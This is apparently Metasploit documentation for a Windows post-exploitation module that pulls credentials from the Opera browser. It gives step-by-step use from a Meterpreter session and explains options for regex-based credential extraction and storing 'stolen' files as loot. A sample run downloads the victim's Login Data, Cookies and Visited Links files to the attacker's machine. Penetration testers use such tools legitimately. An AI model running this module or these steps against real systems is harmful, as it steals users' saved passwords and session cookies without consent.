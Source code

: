 ## Module Description

This post-exploitation module gathers artifacts found on Opera related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/Opera
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/opera) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Opera's parent folder found
[*] Opera's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Login Data
[*] Opera Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513121928_default_192.168.56.106_operaLoginData_680711.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121928_default_192.168.56.106_EXTRACTIONSLogin_648131.bin
[*] Opera's parent folder found
[*] Opera's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Cookies
[*] Opera Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaCookies_000286.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121929_default_192.168.56.106_EXTRACTIONSCooki_563880.bin
[*] Opera's parent folder found
[*] Opera's Visited links file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Visited Links
[*] Opera Visited links downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaVisitedLin_749388.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```